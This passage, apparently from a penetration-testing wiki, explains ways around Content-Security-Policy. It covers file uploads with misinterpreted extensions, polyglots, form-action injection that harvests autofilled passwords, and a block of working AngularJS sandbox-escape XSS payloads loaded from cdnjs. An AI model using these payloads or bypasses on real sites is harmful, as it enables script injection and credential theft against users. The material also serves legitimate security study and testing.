 However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using an extension accepted by the server (like: _script.png_) this won't be enough because some servers like apache server **select MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot ([some polyglot examples here](https://github.com/Polydet/polyglot-database)).

### Form-action

If not possible to inject JS, you could still try to exfiltrate for example credentials **injecting a form action** (and maybe expecting password managers to auto-fill passwords). You can find an [**example in this report**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp). Also, notice that `default-src` does not cover form actions.

### Third Party Endpoints + ('unsafe-eval')

> [!WARNING]
> For some of the following payload **`unsafe-eval` is not even needed**.

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```

Load a vulnerable version of angular and execute arbitrary JS:

```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
